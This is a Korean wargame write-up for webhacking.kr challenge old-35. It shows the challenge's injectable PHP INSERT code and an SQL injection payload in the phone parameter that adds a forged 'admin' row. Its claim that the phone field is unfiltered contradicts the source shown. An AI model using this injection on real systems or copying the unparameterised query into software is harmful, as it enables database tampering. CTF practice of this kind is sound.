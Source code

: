 ```yaml
---
title: "webhacking.kr old 35 문제 풀이"
date: 2025-04-19 00:00:00 +0800
categories: [Wargame, Webhacking.kr]
tags: [cyber security, writeup, webhackingkr, web hacking, sql injection]
description: webhacking.kr old 35 문제 풀이
---
```


[https://webhacking.kr/challenge/web-17/](https://webhacking.kr/challenge/web-17/)
# 문제 풀이
문제 페이지에 접속해보면 phone 값을 받는 인풋 박스와 제출 버튼이 있다.<br />

그 아래에는 소스코드를 볼 수 있는 페이지도 제공된다.<br />
## 소스 코드
```php
<?php
$db = dbconnect();
if($_GET['phone'] && $_GET['id']){
  if(preg_match("/\*|\/|=|select|-|#|;/i",$_GET['phone'])) exit("no hack");
  if(strlen($_GET['id']) > 5) exit("no hack");
  if(preg_match("/admin/i",$_GET['id'])) exit("you are not admin");
  mysqli_query($db,"insert into chall35(id,ip,phone) values('{$_GET['id']}','{$_SERVER['REMOTE_ADDR']}',{$_GET['phone']})") or die("query error");
  echo "Done<br>";
}

$isAdmin = mysqli_fetch_array(mysqli_query($db,"select ip from chall35 where id='admin' and ip='{$_SERVER['REMOTE_ADDR']}'"));
if($isAdmin['ip'] == $_SERVER['REMOTE_ADDR']){
  solve(35);
  mysqli_query($db,"delete from chall35");
}

$phone_list = mysqli_query($db,"select * from chall35 where ip='{$_SERVER['REMOTE_ADDR']}'");
echo "<!--\n";
while($r = mysqli_fetch_array($phone_list)){
  echo htmlentities($r['id'])." - ".$r['phone']."\n";
}
echo "-->\n";
?>
```
코드를 살펴보면 유저로부터 phone, id라는 파라미터 값을 GET 요청으로 받은 후에 chall35이라는 데이터베이스 테이블에 값을 넣어주고 있다.<br />
이때 유저의 ip주소 또한 같이 들어가고 있는 모습도 보인다.<br />

그리고 테이블에 추가된 데이터는 html의 주석으로 추가돼 우리가 볼 수 있게 돼있다.<br />
### 필터링
```php
if(preg_match("/\*|\/|=|select|-|#|;/i",$_GET['phone'])) exit("no hack");
if(strlen($_GET['id']) > 5) exit("no hack");
if(preg_match("/admin/i",$_GET['id'])) exit("you are not admin");
```
총 3가지의 필터링이 존재한다.<br />
1. 정규식
	- \*, /, =, -, #, ;, select 사용 불가
2. id 길이
	- id 파라미터의 길이가 5를 넘어서는 안됨
3. admin 문자열
	- id 파라미터의 값이 admin이면 안됨
## 최종 풀이
```php
$isAdmin = mysqli_fetch_array(mysqli_query($db,"select ip from chall35 where id='admin' and ip='{$_SERVER['REMOTE_ADDR']}'"));
if($isAdmin['ip'] == $_SERVER['REMOTE_ADDR']) {
	solve(35);
	mysqli_query($db,"delete from chall35");
}
```
문제 해결 조건을 보여주는 코드 스니펫이다.<br />
chall35 테이블에서 id가 admin인 데이터를 가져와서 ip가 현재 접속한 ip와 동일하다면 solve 함수가 호출되는 방식이다.<br />

즉, id가 admin이고 ip가 현재 나의 ip 값을 가지는 데이터를 테이블에 집어넣으면 문제가 해결된다는 말이다.<br />
### 필터링 우회
id가 admin인 값을 넣으려면 URL의 id 파라미터를 admin으로 설정해야하는데 아까 필터링 목록을 보았듯이 이 방법은 막혀있다.<br />
게다가 이 "admin" 문자열 필터링을 우회하려면 더 추가적인 특수문자들을 더해야하는데 id 값의 길이가 5를 넘어서는 안되는 규칙도 있어서 결국 id 값에 admin을 직접적으로 넣어주는 방법은 없어보인다.<br />
### phone을 이용한 SQLI
Insert SQL query를 보면 다행스럽게도 유저로부터 받은 phone 값을 가장 마지막에 넣어주고 있다. 게다가 phone 값에는 아무런 필터링이 걸려있지 않아서 자유롭게 값을 조작하는 것도 가능하다.<br />

```sql
-- original query
insert into chall35(id,ip,phone) values('{$_GET['id']}','{$_SERVER['REMOTE_ADDR']}',{$_GET['phone']})

-- modified query
insert into chall35(id,ip,phone) values('{$_GET['id']}','{$_SERVER['REMOTE_ADDR']}', '123), (admin, my_ip, 123')
```
이런식으로 `123), ('admin', 'my_ip', 123`을 phone 인풋 박스에 집어넣고 제출을 하게되면 'admin'을 id로 가지는 데이터가 하나 생성되면서 문제가 해결된다.
